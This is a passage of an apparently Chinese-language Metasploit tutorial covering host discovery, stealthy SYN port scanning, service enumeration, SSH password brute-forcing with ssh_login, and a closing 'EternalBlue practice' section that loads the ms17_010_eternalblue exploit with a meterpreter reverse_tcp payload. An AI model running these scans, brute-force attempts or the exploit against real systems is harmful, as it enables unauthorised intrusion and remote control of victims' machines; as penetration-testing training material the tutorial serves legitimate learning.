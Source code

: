 使用常用的辅助模块进行服务扫描(`search scanner`)

**2.主机发现**
```bash
## 用于主机发现的辅助模块，位于 modules/auxiliary/scanner/discovery
use /auxiliary/scanner/discovery/arp_sweep
```
![](http://image.xpshuai.cn/msf_14.png)

还是nmap速度快, 可以直接在msf中使用`nmap`

**3.端口扫描**
search  portscan
```bash
auxiliary/scanner/portscan/ack
auxiliary/scanner/portscan/syn  # 推荐这个(速度快，准确，不易被发现)
auxiliary/scanner/portscan/xmas
auxiliary/scanner/portscan/ftpbounce
auxiliary/scanner/portscan/tcp

use ......
show options
set xxx
```
![](http://image.xpshuai.cn/msf_15.png)

**4.探测服务详细信息**
![](http://image.xpshuai.cn/msf_16.png)


**5.服务查点**
用户服务扫描和查点的工具，通常以`[server_name]_version`命名

- telnet服务查点(查哪些主机开了telnet服务，而namp是查看某主机开放了哪些服务)
![](http://image.xpshuai.cn/msf_17.png)

- SSH服务查点
```bash
use auxiliary/scanner/ssh/ssh_version
# 口令爆破
use auxiliary/scanner/ssh/ssh_login
```

- MSSQL服务查点
```bash
use auxiliary/scanner/mssql/mssql_version
```



**永恒之蓝实践**
```bash
# 先扫描是否存在
use auxiliary/scanner/smb/ms17_010_eternalblue
...

# 载利用攻击模块
use exploit/windows/smb/ms17_010_eternalblue
set payload windows/x64/meterpreter/reverse_tcp
set RHOST ...
...
exploit
```
